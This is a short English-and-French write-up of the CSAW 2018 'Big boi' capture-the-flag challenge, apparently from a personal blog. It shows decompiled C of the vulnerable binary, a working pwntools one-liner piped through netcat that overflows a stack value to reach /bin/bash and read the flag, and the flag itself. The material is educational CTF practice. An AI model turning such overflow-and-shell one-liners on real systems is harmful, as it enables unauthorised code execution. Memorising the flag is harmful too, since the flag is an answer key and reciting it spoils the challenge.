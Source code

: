 ```yaml
---
author: "Laluka"
title: "CSAW - Big boi"
slug: "big_boi"
date: 2018-09-16
description: "Binary exploitation of a dummy command executor, simple buffer overflow of a function's parameters. "
---
```



### Description

> Only big boi pwners will get this one!

> nc pwn.chal.csaw.io 9000

You can download the ELF [here](/hacking/big_boi/big_boi)


### TL;DR

This challenge is a simple buffer overflow with a check that `may` lead to
code execution. It's an easy pwn, so one liner is the way to go !


### Methology

Step 1 : Use IDA to decompile the program and avoid losing time, then overflow it with the good value many time to access the "/bin/bash" statement.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+10h] [rbp-30h]
  __int64 v5; // [rsp+18h] [rbp-28h]
  __int64 v6; // [rsp+20h] [rbp-20h]
  int v7; // [rsp+28h] [rbp-18h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  buf = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0;
  HIDWORD(v6) = -559038737;
  puts("Are you a big boiiiii??");
  read(0, &buf, 0x18uLL);
  if ( HIDWORD(v6) == 0xCAF3BAEE )
    run_cmd("/bin/bash", &buf);
  else
    run_cmd("/bin/date", &buf);
  return 0;
}
```

Step 2 : Print the cmd you want to run.

```bash
python2 -c 'from pwn import *; print p32(0xCAF3BAEE) * 6; print "cat flag.txt"' | nc pwn.chal.csaw.io 9000
```

Step 3 : Enjoy your free points ! Yayyyy ! \o/

The flag is : __flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}__


<h2 id="fr">French version</h2>


### Description

> Seuls les big boi pwners passeront celui-là !

> nc pwn.chal.csaw.io 9000

Vous pouvez télécharger le fichier ELF [ici](/hacking/big_boi/big_boi)


### TL;DR

Ce challenge est un simple buffer overflow avec une comparaison qui `peut` conduire à une exécution de code. C'est un pwn facile, donc le one-liner est de mise !


### Methologie

Etape 1 : Utilisez IDA pour décompiler le programme et éviter de perdre du temps, puis overflow au bon endroit avec la bonne valeur répétée pour accéder au code executant "/bin/bash".

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+10h] [rbp-30h]
  __int64 v5; // [rsp+18h] [rbp-28h]
  __int64 v6; // [rsp+20h] [rbp-20h]
  int v7; // [rsp+28h] [rbp-18h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  buf = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0;
  HIDWORD(v6) = -559038737;
  puts("Are you a big boiiiii??");
  read(0, &buf, 0x18uLL);
  if ( HIDWORD(v6) == 0xCAF3BAEE )
    run_cmd("/bin/bash", &buf);
  else
    run_cmd("/bin/date", &buf);
  return 0;
}
```

Etape 2 : Envoyer l'overflow et la cmd à exécuter.

```bash
python2 -c 'from pwn import *; print p32(0xCAF3BAEE) * 6; print "cat flag.txt"' | nc pwn.chal.csaw.io 9000
```

Etape 3 : Profiter des points gratuits ! Yayyyy ! \o/

Le flag est : __flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}__
